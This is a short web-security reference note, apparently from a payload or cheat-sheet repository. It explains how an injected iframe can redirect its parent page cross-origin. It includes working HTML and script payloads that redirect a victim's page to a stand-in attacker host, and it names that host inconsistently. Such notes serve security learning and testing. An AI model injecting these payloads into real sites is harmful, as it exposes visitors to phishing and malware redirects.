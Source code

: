 The [\<iframe>](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

# Open redirect

Child document can view and set location property for parent, even if cross-origin `top.window.location`.

Inject an iframe to `vulnerable-website.com`:

```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```

where `https://malicious-website.com/toplevel.html` contains:

```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```

When the iframe is loaded, the parent will be redirected to the `https://malware-website.com/pwned.html` page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. [sandbox iframe attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe).
